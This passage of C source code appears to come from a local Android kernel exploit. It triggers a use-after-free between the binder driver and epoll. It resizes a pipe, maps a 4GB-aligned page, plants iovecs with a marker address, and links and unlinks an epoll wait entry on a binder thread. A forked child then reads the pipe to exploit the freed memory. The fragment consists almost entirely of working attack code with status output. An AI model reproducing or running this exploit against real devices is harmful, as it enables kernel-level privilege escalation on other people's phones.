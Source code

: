 ```
    }else{
        printf("create pipe successfully\n");
    }

    if(fcntl(pipe_fd[0],F_SETPIPE_SZ,PAGE_SIZE)== -1){
        printf("[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }

    printf("[+] Setting up iovecs\n");


      if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;
    
    printf("[+] Linking eppoll_entry->wait.entry to binder_thread->wait.head\n");

    epoll_ctl(m_epoll_fd, EPOLL_CTL_ADD, m_binder_fd, &m_epoll_event);

    pid_t childPid = fork();

    if(childPid == 0){


        sleep(2);
        printf("[+] Un-linking eppoll_entry->wait.entry from binder_thread->wait.head\n");

        epoll_ctl(m_epoll_fd, EPOLL_CTL_DEL, m_binder_fd, &m_epoll_event);
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

        if (nBytesRead != PAGE_SIZE) {
            printf("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }

        exit(EXIT_SUCCESS);

    }
```